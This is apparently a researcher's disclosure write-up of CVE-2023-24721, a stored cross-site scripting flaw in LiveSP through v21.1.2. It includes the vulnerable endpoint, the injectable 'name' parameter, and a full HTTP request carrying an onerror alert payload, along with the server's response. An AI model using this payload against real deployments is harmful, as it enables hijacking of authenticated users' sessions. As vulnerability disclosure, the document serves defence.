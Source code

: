 ### [CVE-2023-24721 - Stored Cross-site Scripting (XSS)](https://nvd.nist.gov/vuln/detail/CVE-2023-24721)
![](https://img.shields.io/static/v1?label=Product&message=LiveSP%20-%20LiveAction&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%2021.1.2%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79:%20Improper%20Neutralization%20of%20Input%20During%20Web%20Page%20Generation%20('Cross-site%20Scripting')&color=brighgreen)

### Description

An issue was discovered in LiveSP through v.21.1.2. A malicious user leveraging this vulnerability could inject arbitrary JavaScript code. The malicious payload will then be triggered every time an authenticated user browses the page containing it.

### POC

Stored cross-site scripting (also known as second-order or persistent
XSS) arises when an application receives data from an untrusted source
and includes that data within its later HTTP responses in an unsafe way.
The attacker-supplied code can perform a wide variety of actions, such
as stealing victims' session tokens or login credentials, performing
arbitrary actions on their behalf, and logging their keystrokes.
Methods for introducing malicious content include any function where
request parameters or headers are processed and stored by the
application, and any out-of-band channel whereby data can be
introduced into the application's processing space (for example, email
messages sent over SMTP that are ultimately rendered within a web
mail application).

Stored cross-site scripting flaws are typically more serious than reflected
vulnerabilities because they do not require a separate delivery
mechanism in order to reach target users, and are not hindered by web
browsers' XSS filters. Depending on the affected page, ordinary users
may be exploited during normal use of the application. In some
situations this can be used to create web application worms that spread
exponentially and ultimately exploit all active users.

### Affected Endpoint
- **URL:** https://[ip:port]/va/service/bach/topology/element
- **HTTP Post Parameter:** name

### Technical Details
In this specific instance, using the API available under
*/va/service/bach/topology/element*, it is possible to inject arbitrary
JavaScript code within the *name* POST parameter, as shown in the
following HTTP Request/Response pair.

**HTTP Request:**

```html
POST /va/service/bach/topology/element HTTP/1.1
Host: [REDACTED]
Cookie: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [REDACTED]
X-Customer: [REDACTED]
Content-Type: application/json
Content-Length: 175
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"attributes":{"name":"\"><img src='x' onerror='alert(\"pwned\")'>","extraLabel":""},"type":"cluster","keyType":"cluster:applicationUser","children":{"neType:application":[]}}
```

**HTTP Response:**

```html
HTTP/1.1 201 Created
Server: [REDACTED]
Date: Wed, 04 Jan 2023 13:45:39 GMT
Content-Type: application/json
Content-Length: 902
Connection: close
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers:[...]
Access-Control-Allow-Origin: *
Referrer-Policy: strict-origin

[...]
```

As we note from the HTTP Response above, the exploit was successfully saved. At this point, when the user visits the *https://[hostname:port]/va/cluster* web page, the exploit runs from the victim’s browser.

![xss](https://github.com/marcovntr/CVE/blob/main/2023/CVE-2023-24721/xss.png)

#### Reference
- https://nvd.nist.gov/vuln/detail/CVE-2023-24721
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24721

